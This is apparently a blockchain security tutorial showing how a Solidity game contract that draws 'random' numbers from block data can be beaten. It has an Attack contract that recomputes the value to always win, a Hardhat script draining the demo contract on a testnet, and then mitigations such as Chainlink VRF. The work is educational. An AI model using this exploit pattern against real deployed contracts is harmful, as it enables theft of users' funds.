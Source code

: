 # Exploiting random numbers generators
In this quest we will use Hardhat again. So go ahead and do the usual setup, connect to Mumbai, and let's do this thing!

Generating “truly” random numbers has always been a challenge in Solidity. Because of the transparent/deterministic nature of blockchains, it is hard to implement a random pattern that can not be hacked. In other fields of development, you can write some crazy computation-intensive code for randomness, or you can simply hide your code and use built-in randomness features in the language you are using. In blockchains, since all info is open to the public, attackers may have an edge in this regard. In this quest, we will look at a common vulnerability when trying to achieve randomness in solidity. After that, we are going to look through some possible ways to generate random numbers. Ready? Set, to your keyboard!

## Writing the Guesser contract:
Some developers sometimes resort to using block specifications trying to implement some random behaviour. This is a big mistake, it can be easily hacked. Believe it or not, you just have to copy the source code of the contract to hack it. Well, not all the code, just the lines that are used to generate "random" numbers. Let’s take a look at this scenario:
There is a contract called Guesser, which has a function called guess that receives your input, adds it to a random number it generates, if the sum is even you win some MATICs, otherwise you lose it. Let’s take a look at the hackable contract:

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Guesser {
    constructor() payable {}

    function guess(uint256 _guess) public payable {
        require(msg.value == 1e15);
        uint256 rand = uint256(
            keccak256(
                abi.encodePacked(
                    blockhash(block.number - 1),
                    block.timestamp,
                    block.coinbase,
                    block.difficulty,
                    block.coinbase
                )
            )
        );
        if ((rand + _guess) % 2 == 0) {
            payable(msg.sender).transfer(2 * 1e15);
        }
    }

    receive() external payable {}

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

You send your guess along with a specified amount of MATIC to this function, then it generates a random number, adds it to your guess, checks if you won or not, and decides if it sends you the money or not. So what is happening in that weird keccak256 function? Keccak is a family of hash functions, keccak256 is a hash function that uses a 256-bit key. It produces a value in binary, but notice we are casting to uint256. As a parameter to keccak256, we gave a group of block specifications, packed them to bytes, and encoded them. I (because I do not know how randomness hack works) added some solidity-defined block info thinking it is a good choice. And I repeated the block.coinbase thinking I am outsmarting hackers. You can look for these specifications in Solidity’s cheatsheet: 
https://docs.soliditylang.org/en/v0.8.9/cheatsheet.html
Now, why is this contract extremely vulnerable? 
First, it leaves a chance for miners to cheat. Since they are the ones who create blocks and you are actually relying on this info (block info).
Secondly, remember, I have to send a guess hoping that it sums up to an even number with a number the Guesser generates.
I can create an Attack contract, write the same logic in Guesser, check if the “random” number is even and send zero (or any even number) as a guess, otherwise I send one (or any odd number), and I win!
Add the cotract above to your contracts directory, take a breath, and let’s write the Attack contract.

## Writing the Attack contract
This contract is simple. Since the target contract (Guesser) uses the block info to generate its rand number, we can examine what this number will be beforehand! 

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Guesser.sol";

contract Attack {
    function hack(Guesser guesser) public payable {
        uint256 rand = uint256(
            keccak256(
                abi.encodePacked(
                    blockhash(block.number - 1),
                    block.timestamp,
                    block.coinbase,
                    block.difficulty,
                    block.coinbase
                )
            )
        );
        if (rand % 2 == 0) {
            guesser.guess{value: msg.value}(0);
        } else guesser.guess{value: msg.value}(1);
    }

    receive() external payable {}

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

See what I did there? I simply checked the not-so-random Guesser will generate and sent an appropriate guess!

```js
if (rand % 2 == 0) {
    guesser.guess{value: msg.value}(0);
    } else guesser.guess{value: msg.value}(1);
```

This is how to call a payable function from another contract, you specify the value sent and the arguments list between parenthesis. In our case, there is only one argument. The Guesser contract is basically a free ATM machine!

## Attacking in Hardhat:
Like we did a couple of times already, let's si,ulate the hacking process in Hardhat. In your scripts directory, create an _Attack.js_:

```js
const { ethers } = require('hardhat')

const sleep = (milliseconds) => {
    return new Promise(resolve => setTimeout(resolve, milliseconds))
}

hack = async () => {
    let Guesser, guesser, Attack, attack, signers, victim, hacker, overrides, victimBalance, hackerBalance

    signers = await ethers.getSigners()
    victim = signers[0]
    hacker = signers[1]

    console.log("I am the victim and I am deploying my vulnerable contract:")
    Guesser = await ethers.getContractFactory('Guesser')
    overrides = {
        value: ethers.utils.parseEther("0.001")
    }
    guesser = await Guesser.deploy(overrides)
    console.log("The vulnerable contract was deployed to " + guesser.address)
    console.log("-----------------------------------------------")

    console.log("I am the hacker and I am deploying my attack contract:")
    Attack = await ethers.getContractFactory("Attack")
    attack = await Attack.connect(hacker).deploy()
    console.log("The attack contract was deployed to " + attack.address)
    console.log("-----------------------------------------------")

    victimBalance = await guesser.getBalance()
    hackerBalance = await attack.getBalance()
    console.log("The victim has " + victimBalance + " MATICs")
    console.log("The hacker has " + hackerBalance + " MATICs")
    console.log("-----------------------------------------------")

    console.log("The hacker is about to hack()")
    overrides = {
        value: ethers.utils.parseEther("0.001"),
        from: hacker.address
    }
    await attack.connect(hacker).hack(guesser.address, overrides)
    console.log("-----------------------------------------------")

    console.log("The hack is over:")
    await sleep(20000)
    victimBalance = await guesser.getBalance()
    hackerBalance = await attack.getBalance()
    console.log("The victim has " + victimBalance + " MATICs")
    console.log("The hacker has " + hackerBalance + " MATICs")
}
hack()
```

The usual stuff, huh? I promise, this is the last time haha.
Run ``` npx hardhat run Attack.js --network mumbai ```

You should get this log :

```
I am the victim and I am deploying my vulnerable contract:
The vulnerable contract was deployed to 0x3143d28625BEC1B58B9c8b53275224834f5914F6
-----------------------------------------------
I am the hacker and I am deploying my attack contract:
The attack contract was deployed to 0x8b27466B6bB2d3C58Cf6a6B9C4ed835f2711eA8c
-----------------------------------------------
The victim has 1000000000000000 MATICs
The hacker has 0 MATICs
-----------------------------------------------
The hacker is about to hack()
-----------------------------------------------
The hack is over:
The victim has 0 MATICs
The hacker has 2000000000000000 MATICs
```

So, how can we counter such attacks? Well, never use block specifications.
There are surely some good ways to generate random numbers in solidity. Let’s have a look at them!

## Final remarks:
You can think of many ways to generate random numbers. But unfortunately, it is really hard to do it in a system like a Blockchain. Hackers are really good at exploiting deterministic systems. I mean, if an attacker reads your contract hen there is a good chance they will exploit your randomness function.  One can argue that maybe there is no way to generate “truly” random numbers in decentralized systems. And here is the key, why don’t we look outside the Blockchain to look up random numbers? Well then we will be defying one of the basic rules of smart contracts, they are trustless. Gladly Chainlink has a solution for that. Chainlink allows blockchains to interact with off-chain data securely. There is also a way to achieve randomness using chainlink’s VRF (verifiable random function). You request and receive a random number that is unpredictable, this is one of the best solutions (https://blog.chain.link/random-number-generation-solidity/) . You can search for some other implementations. I found this one, for example: https://github.com/randao/randao . This is an on-chain solution, DAOs do not render your contract to a central point of failure, which is good! 
That being said, be careful when dealing with random number generators in Solidity. You can design your own random generator, but that is at your own expense. Or you can use some other creative implementations that the community recommends. Good luck and happy coding!
